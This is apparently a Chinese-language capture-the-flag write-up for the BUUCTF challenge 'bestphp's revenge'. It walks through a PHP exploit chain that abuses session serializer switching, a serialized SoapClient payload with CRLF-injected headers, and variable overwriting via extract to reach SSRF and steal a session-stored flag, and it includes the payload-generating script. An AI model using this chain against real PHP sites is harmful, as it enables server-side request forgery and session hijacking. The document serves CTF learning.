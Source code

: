 原题戳这👉<a href="https://buuoj.cn/challenges#bestphp's%20revenge">BUUCTF bestphp's revenge</a>

```php
<?php
// index.php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

```php
// flag.php 扫描得到的
only localhost can get flag!
session_start(); 
echo 'only localhost can get flag!'; 
$flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ 	          		$_SESSION['flag'] = $flag;
}
only localhost can get flag!
```

flag.php很明显指向了SSRF，127.0.0.1访问会把flag放到session中。

利用PHP的原生类`SoapClient`的`__call`方法进行SSRF

# Step1

PHP默认的session引擎为`php`

通过`session_start(array('serialize_handler'=>'php_serialize'))`
将session引擎修改为`serialize_handler`

同时传入payload：

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$a = new SoapClient(null, array('location'=>$target,
    'user_agent'=>"Taco\r\nCookie: PHPSESSID=123456\r\n",
    'uri'=>'test'));
echo '|'.urlencode(serialize($a));
```

![image-20221019113257473](../images/image-20221019113257473.png)

服务器则会执行

`call_user_func(session_start, array('serialize_handler'=>'php_serialize'));`

`$_SESSION['name'] = $_GET['name'];`

按照`php_serialize`的处理方式将我们传入的name，序列化进session文件中

# Step2

通过`extract`变量覆盖，调用SoapClient类不存在的方法，触发`__call`，实现SSRF

![image-20221019113852997](../images/image-20221019113852997.png)

`call_user_func('extract',array('b'=>'call_user_func'))`

将`$b`的值修改为`'call_user_func'`

`reset()` 将 `$_SESSION` 的内部指针倒回到第一个单元并返回第一个数组单元的值

后面`call_user_func($b, $a);`变成
`call_user_func('call_user_func', array('SoapClient','welcome_to_the_lctf2018'));`

# Step3

将PHPSESSID改为我们在SoapClient类里设置的123456，得到flag

![image-20221019114518055](../images/image-20221019114518055.png)